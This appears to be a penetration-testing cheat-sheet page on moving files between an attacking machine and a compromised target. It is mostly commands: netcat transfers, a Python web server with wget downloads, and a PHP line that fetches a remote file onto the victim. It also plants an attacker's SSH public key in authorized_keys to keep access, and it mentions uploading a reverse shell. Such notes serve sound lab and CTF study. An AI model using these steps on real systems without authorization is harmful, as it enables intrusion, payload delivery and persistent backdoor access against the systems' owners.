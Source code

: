 # Transfering files


### Netcat
The easiest way normally is to use netcat. 

If you can't have an interactive shell it might be risky to start listening on a on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because  that will destroy your sessions.

So instead you can connect from the target machine like this.

On attacking machine:
```
nc -lvp 4444 < file
```
On target machine:

```
nc 192.168.1.102 4444 > file
```

You can of course also do it the other way around:

So on the victim-machine we run nc like this:
```
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```
nc 192.168.1.103 < enum.sh
```

I have sometimes recieved this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```

### SSH
If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user dir you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair.
You do that with: `ssh-keygen -t rsa -C "your_email@example.com"` then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: `

This will create two files, one called *nameOfMyKey* and another called *nameOfMyKey_pub*. The one with the *_pub* is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.
Now you copy the content of *nameOfMyKey_pub*. 
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this 
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

3. Log in.
Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```


### Wget

### Python server

Fire up a simple server on the attacking box. This command will make the entire folder available.
```
python -m SimpleHTTPServer 9999
```

Now you can download any file with curl or wget
```
wget 192.168.1.102:9999/file.txt
```

### With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

###ftp


